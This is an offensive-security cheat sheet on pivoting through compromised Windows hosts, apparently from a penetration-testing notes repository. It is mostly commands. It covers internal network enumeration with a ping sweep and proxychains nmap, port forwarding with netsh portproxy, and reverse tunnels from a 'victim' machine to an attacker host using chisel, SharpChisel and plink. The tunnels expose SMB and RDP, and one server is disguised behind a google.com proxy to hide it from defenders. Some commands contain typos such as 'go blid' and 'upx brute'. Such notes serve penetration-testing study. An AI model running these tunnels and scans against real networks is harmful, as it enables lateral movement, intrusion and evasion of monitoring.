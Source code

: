 # Pivoting in Windows

## Pivoting in Windows

We may be in a situation where we are in an operating system that has more than one network interface, this could be physical, virtual, or even a container environment. 

### Tunneling/Proxying

Create a proxy type connection through a compromised machine in order to route all traffic into the targeted network.

### Port Forwarding

Create a connection between a local port and a single port on a target.

## Pivoting Enumeration

### Enumerate the ARP Table

The ARP table contains IP addresses of hosts that the target has interacted with recently. We can enumerate it with:

```text
arp -a
```

### Enumerate Name Resolution

On Windows systems, we can find the name resolution mappings in:

```text
C:\Windows\System32\drivers\etc\hosts
```

### Enumerating Network Interface Cards \(NICs\)

First, we must determine which subnets are on the operating system to do that we can enumerate the system network interface cards with DOS/Batch or PowerShell:

```text
ipconfig /all
Get-NetIPConfiguration
```

### Enumerate Hosts

We can perform a ping a sweep to identify which hosts are up:

```text
for /L %i in (1,1,255) do @ping -n 1 -w 200 10.5.5.%i > nul && echo 10.5.5.%i is up.
```

* /L = iterate through a command using a range of numbers and accept a replaceable parameter
* %i = replaceable parameter
* \(start, step, end\) = numbers to iterate
* -n 1 = ping one time every host
* -w 200 = timeout
* &gt; nul = filter

> Note: This uses ICMP and some Windows Operating Systems may have ICMP disabled.

Alternatively, we can use nmap with proxychains:

```text
proxychains nmap -top-ports=1000 -sT -Pn 10.5.5.25,30 --open 
```

## Pivoting with netsh

[Netsh ](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts#:~:text=Netsh%20is%20a%20command%2Dline,in%20batch%20files%20or%20scripts.)is a command-line scripting utility that allows you to display or modify the network configuration of a computer that is currently running. Netsh commands can be run by typing commands at the netsh prompt and they can be used in batch files or scripts. Remote computers and the local computer can be configured by using netsh commands.

 We can use netsh to forward ports:

1. listenaddress – is a local IP address waiting for a connection.
2. listenport – local listening TCP port \(the connection is waited on it\).
3. connectaddress – is a local or remote IP address \(or DNS name\) to which the incoming connection will be redirected.
4. connectport – is a TCP port to which the connection from listenport is forwarded to.

```text
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```

_**Example below:**_

First, establish a connection:

```text
# Syntax Simplified
netsh interface portproxy add v4tov4 listenport=1234 listenadress=compromised_IP connectport=second_target_PORT connectaddress=second_target_IP
netsh interface portproxy add v4tov4 listenport=1234 listenaddress=target_ip connectport=445 connectaddress=other_machine_ip

# Example
netsh interface portproxy add v4tov4 listenport=1234 listenaddress=192.168.134.10 connectport=445 connectaddress=172.16.1.50
```

Then verify that the connection has been made with:

```text
C:\Users\first_victim> netstat -anp TCP | find "1234"
```

## Pivoting with chisel

[Chisel ](https://github.com/jpillora/chisel)is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go \(golang\). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

Compiling chisel locally in our host:

```text
git clone https://github.com/jpillora/chisel
cd chisel
go blid -ldflags "-s -w" .
upx brute chisel
```

Let's say that we want to forward the ports 389 and 88 through port 8008 in our host, we can do that with [chisel](https://github.com/jpillora/chisel) by doing this:

```text
user@victim$ .\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389 
user@hacker$ /opt/chisel/chisel server -p 8008 --reverse
```

### Pivoting with SharpChisel

[SharpChisel](https://github.com/shantanu561993/SharpChisel) is a C\# wrapper for chisel:

```text
user@hacker$ ./chisel server -p 8080 --key "private" --auth "user:pass" --reverse --proxy "https://www.google.com"
================================================================
server : run the Server Component of chisel 
-p 8080 : run server on port 8080
--key "private": use "private" string to seed the generation of a ECDSA public and private key pair
--auth "user:pass" : Creds required to connect to the server
--reverse:  Allow clients to specify reverse port forwarding remotes in addition to normal remotes.
--proxy https://www.google.com : Specifies another HTTP server to proxy requests to when chisel receives a normal HTTP request. Useful for hiding chisel in plain sight.

user@victim$ SharpChisel.exe client --auth user:pass https://redacted.cloudfront.net R:1080:socks
```

## Pivoting with plink

plink is an old networking tool that we can also use for forwarding ports:

```text
# exposes the SMB port of the machine in the port 445 of the SSH Server
plink -l root -pw toor -R 445:127.0.0.1:445 
# exposes the RDP port of the machine in the port 3390 of the SSH Server
plink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389  

plink -l root -pw mypassword 192.168.18.84 -R
plink.exe -v -pw mypassword user@10.10.10.10 -L 6666:127.0.0.1:445

plink -R [Port to forward to on your VPS]:localhost:[Port to forward on your local machine] [VPS IP]
# redirects the Windows port 445 to Kali on port 22
plink -P 22 -l root -pw some_password -C -R 445:127.0.0.1:445 192.168.12.185   
```


